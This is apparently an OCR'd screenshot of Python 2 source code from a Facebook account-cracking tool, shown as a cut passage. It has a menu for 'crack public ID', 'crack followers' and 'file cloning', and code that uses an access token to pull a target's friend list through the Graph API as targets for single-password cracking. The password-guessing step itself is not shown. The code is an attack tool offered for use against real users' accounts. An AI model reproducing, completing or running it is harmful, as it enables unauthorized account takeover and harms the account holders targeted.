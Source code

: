     os.system('clear')
    print logo
    print '\t     CRACK WITH SINGLE PASS'
    print '\x1b[1;97m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;97m======================================================='
    digit_rx()


def digit_rx():
    rx = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if rx == '1':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     SINGLE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rx == '2':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        